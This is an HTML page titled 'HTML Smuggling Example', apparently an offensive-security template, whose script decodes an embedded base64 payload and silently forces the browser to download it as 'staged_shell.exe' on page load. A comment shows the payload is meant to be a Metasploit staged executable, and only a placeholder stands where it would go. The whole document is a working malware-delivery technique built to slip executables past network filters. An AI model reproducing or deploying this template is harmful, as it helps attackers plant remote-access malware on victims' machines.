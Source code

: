 ```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF8">
    <title>HTML Smuggling Example</title>
</head>
<body>
    <script>
        // Modern syntax and better practices
        const base64ToArrayBuffer = (base64) => {
            const binaryString = window.atob(base64);
            const length = binaryString.length;
            const bytes = new Uint8Array(length);
            for (let i = 0; i < length; i++) {
                bytes[i] = binaryString.charCodeAt(i);
            }
            return bytes.buffer;
        };

        const file = 'BASE64_ONE_LINE_PAYLOAD_GO_HERE'; // base64 msfstaged.exe | tr -d '\n'
        const data = base64ToArrayBuffer(file);

        if (data) {
            const blob = new Blob([data], { type: 'application/octet-stream' });
            const fileName = 'staged_shell.exe';

            if (window.Blob && window.URL) {
                const a = document.createElement('a');
                document.body.appendChild(a);
                a.style = 'display: none';
                a.rel = 'noopener noreferrer';  // Security enhancement

                try {
                    const url = window.URL.createObjectURL(blob);
                    a.href = url;
                    a.download = fileName;
                    a.click();

                    setTimeout(() => {
                        window.URL.revokeObjectURL(url); // Free up memory by revoking the Blob URL
                        document.body.removeChild(a);    // Clean up the DOM by removing the element
                    }, 100);
                } catch (e) {
                    console.error('Error during download:', e);
                }
            } else {
                console.error('The required APIs are not supported in this browser.');
            }
        } else {
            console.error('Failed to decode base64 data.');
        }
    </script>
</body>
</html>
```
